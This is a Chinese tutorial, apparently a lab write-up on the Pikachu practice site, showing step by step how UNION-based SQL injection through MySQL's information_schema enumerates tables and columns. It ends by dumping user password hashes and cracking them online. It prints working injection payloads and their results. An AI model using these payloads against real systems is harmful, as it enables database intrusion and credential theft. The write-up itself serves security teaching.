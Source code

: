 ---

# information_schema 有什么用？

在 mysql 中，自带的**_information schema_**这个表里面存放了大量的重要信息。
比如 :

1. **SCHEMATA 表**:提供了当前 mysql 实例中所有**数据库的信息**。
2. **TABLES 表**:提供了关于数据库中的**表的信息(包括视图)**。
3. **COLUMNS 表**:提供了表中的**列信息**。

通过**information_schema**和**union**操作，我们可以查询到数据库中所有表的列信息

# 完整演示

以字符型注入为例

## 检查是否存在注入点

输入定界符或引用符
在这里我们输入单引号`'`,报错，说明参与了后台的字符串拼接，可以进行注入。

```sql
# 报错信息
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

## order by 确定字段数

输入，根据返回信息确定字段数为`2`

```sql
kobe' order by 5#
kobe' order by 3#
kobe' order by 2#
```

## union 查询数据库基础信息

```sql
kobe' union select version(),database()#
kobe' union select user(),database()#
# version(); //取的数据库版本5.7.26
# database();//取得当前的数据库root
# user(); //取得当前登录的用户root@localhost
```

## information_schema 查询表名

```sql
# 获取表名:
select id,email from member where username = 'kobe' union select table_schema,table_name from information_schema.tables where table_schema='root';
# payload:
kobe' union select table_schema,table_name from information_schema.tables where table_schema='root'#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:root
your email is: httpinfo

your uid:root
your email is: member

your uid:root
your email is: message

your uid:root
your email is: users

your uid:root
your email is: xssblind
```

得到表名：

- httpinfo
- member
- message
- users
- xssblind

## 进一步查询列名

查**users**

```sql
#获取列名:
select id,email from member where username = 'kobe' union select table_name,column_name from information_schema.columns where table_name='users';
# payload:
kobe' union select table_name,column_name from information_schema.columns where table_name='users';#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:users
your email is: USER

your uid:users
your email is: CURRENT_CONNECTIONS

your uid:users
your email is: TOTAL_CONNECTIONS

your uid:users
your email is: id

your uid:users
your email is: username

your uid:users
your email is: password

your uid:users
your email is: level
```

得到列名：

- USER
- CURRENT_CONNECTIONS
- TOTAL_CONNECTIONS
- id
- username
- password
- level

## 获取数据

查**username**和**password**

```sql
# 获取内容
select id,email from member where username= 'kobe' union select username,password from users;
# payload:
kobe' union select username,password from users#
```

输入 payload，返回:

```sql
your uid:3
your email is: kobe@pikachu.com

your uid:admin
your email is: e10adc3949ba59abbe56e057f20f883e

your uid:pikachu
your email is: 670b14728ad9902aecba32e22fa4f6bd

your uid:test
your email is: e99a18c428cb38d5f260853678922e03
```

得到数据：

- admin:e10adc3949ba59abbe56e057f20f883e
- pikachu:670b14728ad9902aecba32e22fa4f6bd
- test:e99a18c428cb38d5f260853678922e03

password 的 md5 值，可以用网站进行解密
[md5 在线解密破解,md5 解密加密](https://www.cmd5.com/)
查询结果：

- admin:123456
- pikachu:000000
- test:abc123

# 总结

根据以上演示，我们可以通过 sql 注入漏洞，使用 information_schema 表，查询到数据库信息，列名，表名，数据。

